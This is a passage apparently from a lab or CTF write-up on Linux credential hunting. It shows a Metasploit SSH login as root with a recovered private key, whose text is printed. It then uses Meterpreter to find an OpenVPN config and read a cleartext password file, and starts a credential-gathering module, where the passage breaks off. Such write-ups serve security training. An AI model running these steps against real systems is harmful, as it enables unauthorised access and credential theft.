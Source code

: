 ```
nwXur7vpiut49V2ig0UjaQxyjQjNjb29XH2/yhDjLOetTf5ZRhyafnImUzvZ28NArJfdBy
i2bE6UXt34y9lY+X0nG7V2rfQFBf4kbV/4Kz0uMyUXN2SvEzcxO+4WGILSQFj+x9MsY0YE
STOMIZSSBDSfkAAAAJcm9vdEBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----

msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set rhosts 10.10.140.168
rhosts => 10.10.140.168
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set username root
username => root
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > exploit

[*] 10.10.140.168:22 SSH - Testing Cleartext Keys
[*] 10.10.140.168:22 - Testing 1 key from PRIVATE_KEY
[+] 10.10.140.168:22 - Success: 'root:-----BEGIN RSA PRIVATE KEY-----
MIIG5AIBAAKCAYEAzSWvqfxeIpTuFmdAFyWDQho0h8ud3g9zSJ32pjosNcTQJe3/
kYC4B5hMlfIXzH5oKn9YRn55O10RYxppZpXFsc4H7pYquD5TLKLmaH7UqBj9X1Wj
..[snip]..
reT9n/DDIuzTxKEX7xhn5f8kT3G5P+GSPFmiSFmh9Dh1/SAIYLPfDIdpSobyrfO8
fMbv0kcEKV8y/X8Ut/n74z0EtRWEERCZuA8+JPLN7P82UP7Cbohjxg==
-----END RSA PRIVATE KEY-----
' 'uid=0(root) gid=0(root) groups=0(root) Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux '
[*] SSH session 2 opened (10.8.145.108:37683 -> 10.10.140.168:22) at 2022-05-23 17:44:13 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 2.2 - Config Files

```
meterpreter > pwd
/home/user
meterpreter > search -f *.ovpn -d /
Found 1 result...
=================

Path                   Size (bytes)  Modified (UTC)
----                   ------------  --------------
/home/user/myvpn.ovpn  212           2017-05-15 20:14:59 -0400

meterpreter > cat myvpn.ovpn
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0

meterpreter > cat /etc/openvpn/auth.txt
user
password321
meterpreter > run post/multi/gather/irssi_creds

[!] SESSION may not be compatible with this module:
```